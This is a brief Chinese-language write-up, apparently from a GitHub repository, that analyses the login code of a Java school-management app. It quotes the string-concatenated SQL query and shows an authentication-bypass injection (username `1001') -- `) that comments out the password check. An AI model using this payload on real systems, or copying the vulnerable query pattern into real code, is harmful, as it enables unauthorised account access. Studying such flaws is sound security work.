


### 分析 `LoginFrame.java`
```java
if(selectedItem.equals("教师"))
    loginQuery = "SELECT * FROM 教师表 WHERE(登陆帐号='" + loginUserName  + "' AND 登陆密码 ='" + loginPassword + "')";
else if(selectedItem.equals("管理员"))
    loginQuery = "SELECT * FROM 管理员 WHERE(用户名='" + loginUserName + "' AND 密码 ='" + loginPassword + "')";
else //(selectedItem.equals("学生"))
    loginQuery = "SELECT * FROM 学生基本信息表 WHERE(学号='" + loginUserName + "' AND 密码 ='" + loginPassword + "')";
loginStatement = loginConnection.createStatement();
System.out.println(loginQuery);  // XD
loginResultSet = loginStatement.executeQuery( loginQuery );
boolean Records = loginResultSet.next();
if ( ! Records )
{
    JOptionPane.showMessageDialog(LoginFrame.this, "没有此用户或密码错误" );
    return;
}
else
{
    login = 1 ;
}
```
### 可知验证身份的 SQL 语句为 
```sql
"SELECT * FROM 教师表 WHERE(登陆帐号='" + loginUserName  + "' AND 登陆密码 ='" + loginPassword + "')"
```
### 构造特殊用户名 `1001') -- ` 密码随意

### 则最终 Query 为
```sql
SELECT * FROM 教师表 WHERE(登陆帐号='1001') -- ' AND 登陆密码 ='qqqq')
```
### 对密码的验证成功被注释掉 成功登入系统

